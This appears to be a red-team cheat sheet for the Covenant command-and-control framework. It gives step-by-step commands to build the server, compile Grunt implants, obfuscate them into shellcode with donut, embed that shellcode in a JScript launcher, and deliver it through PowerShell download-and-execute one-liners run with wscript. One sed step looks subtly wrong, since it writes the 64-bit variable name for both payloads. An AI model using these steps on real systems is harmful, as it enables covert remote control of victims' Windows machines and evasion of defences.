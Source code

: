 #### 1. About

- URL: `https://github.com/cobbr/Covenant`
- .NET C2 framework


#### 2. Build

From: `https://github.com/cobbr/Covenant/wiki/Installation-And-Startup`

```
# git clone --recurse-submodules https://github.com/cobbr/Covenant
# cd Covenant/Covenant
# docker build -t covenant .
```


#### 3. Run

```
# cd Covenant/Covenant
# docker run -it -p 7443:7443 -p 80:80 -p 443:443 --name covenant -d -v `pwd`/Data>:/app/Data covenant
```


#### 4. SSL Cert for HTTPs listener

```
# site='test.local'
# out='default.pem'
# openssl req \
-x509 -nodes -days 365 -sha512 \
-subj "/C=CH/ST=ZH/L=Zurich/CN=$site" \
-newkey rsa:4096 -keyout $out -out $out
# openssl pkcs12 -export -in $out -inkey $out -out default.pfx
```

- ConnectAddresses: <EXTERNAL_IP>
- ConnectPort: 443
- BindPort: 443
- BindAddress: 0.0.0.0


#### 5. Instrumentation

1. Launcher config

```
Launchers > Binary (ValidateCert: false, UseCertPinning: false)
Launchers > Binary > Code - save as GruntHTTP.cs
```

2. Compile .NET

```
PS>C:\Windows\Microsoft.Net\Framework64\v4*\csc.exe -out:grunt64.exe GruntHTTP.cs
PS>C:\Windows\Microsoft.Net\Framework64\v4*\csc.exe -platform:x86 -out:grunt32.exe GruntHTTP.cs
```

3. Use `donut` (`https://github.com/TheWover/donut/releases`) for binary obfuscation

```
PS>.\donut.exe -a2 -f1 'grunt64.exe' -o grunt64.bin
PS>.\donut.exe -a2 -f1 'grunt32.exe' -o grunt32.bin
```

4. WScript example

```
PS>powershell -c "(New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/outflanknl/Scripts/master/ShellcodeToJScript.js')" > x.js
PS>wscript.exe x.js
```

5. Place encoded Grunt shell-code into launcher JS script for `wscript`

```
# wget https://raw.githubusercontent.com/outflanknl/Scripts/master/ShellcodeToJScript.js

# l32=`grep -n '^var encodedPayload32' ShellcodeToJScript.js | awk -F ':' '{print $1}'`
# l64=`grep -n '^var encodedPayload64' ShellcodeToJScript.js | awk -F ':' '{print $1}'`

# p32=`base32 -w0 grunt32.bin`
# p64=`base64 -w0 grunt64.bin`

# sed -i --expression $l32"s@.*@var encodedPayload64=\"$p32\";@" ShellcodeToJScript.js
# sed -i --expression $l64"s@.*@var encodedPayload64=\"$p64\";@" ShellcodeToJScript.js
```

6. Serve/download and run the JS file

```
# python3 -m http.server 9999

>powershell -c "(New-Object System.Net.WebClient).DownloadString('http://172.16.103.128:9999/ShellcodeToJScript.js')" > %temp%\x.js
>wscript.exe %temp%\x.js
```

